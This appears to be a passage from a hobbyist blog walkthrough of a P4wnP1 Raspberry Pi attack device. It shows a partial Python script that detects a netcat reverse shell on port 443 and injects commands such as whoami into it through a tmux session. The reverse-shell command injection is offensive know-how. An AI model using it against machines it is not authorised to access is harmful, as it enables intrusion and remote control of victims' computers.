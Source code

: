 ### Headless Cmd Injection
This is an excellent example of being able to leverage the Pi's capabilities.  Building on what we've setup and with one addition of a python script we can reasonbly inject into the headless netcat reverse shell any number of commands we would like.  This would allow the HID script to be focused on establishing connection and promote the remainder of the system interaction to be carried out behind the scenes.


![Headless cmd Injection](/images/jtekt/p4wnp1/1/P4wnP1_CmdInject.png)

To facilitate this, we borrow from the previous work of driving the Scroll pHAT.

#### Tmux Injector
This script follows the same logic as our *scrollphat.py* except we'll just be looking for the TCP:443 session.  Once that's observed we'll run through our variable *cmds* into the headless tmux session *rcon*.

Pretty ingenious!  
<a href="https://www.deviantart.com/grievousalien" target="_blank"><img src="/images/jtekt/common/Aku_Ingenious.jpg" alt="Ingenious Aku by Grievousalien">
</a>

Line 12 holds the variable cmds.  A point to be careful of here is the syntax going through three levels of interpretation so mind your escape characters.  I kick things off with a whoami and follow that up with opening Google Chrome and loading up the generic default HTTP page hosted by the Pi.

*/root/scripts/tmux_cmdinject.py*
```python
#!/usr/bin/env python
import sys
import os
import time

try:
    import psutil
except ImportError:
    sys.exit("This script requires the psutil module\nInstall with: sudo pip install psutil")

con_443 = 0
cmds = ["whoami", '\'\"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe\"\'\ -incognito\ --new-window\ 172.16.0.1']

def check_session():
```